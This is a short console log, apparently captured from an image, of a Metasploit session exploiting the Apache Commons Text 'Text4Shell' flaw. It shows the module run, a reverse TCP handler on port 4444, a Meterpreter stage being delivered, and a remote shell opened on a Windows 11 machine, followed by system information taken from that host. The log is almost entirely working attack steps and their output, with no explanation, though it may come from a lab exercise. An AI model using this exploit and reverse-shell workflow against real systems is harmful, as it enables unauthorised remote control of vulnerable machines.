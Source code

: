 ```
Exploit target:

   Id  Name
   --  ----
   2   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.18.168.145:4444
[*] Sending stage (175686 bytes) to 172.18.160.1
[*] Meterpreter session 6 opened (172.18.168.145:4444 -> 172.18.160.1:53170) at 2024-01-15 00:15:18 +0530

meterpreter > sysinfo
Computer        : HOME
OS              : Windows 11 (10.0 Build 22631).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >```
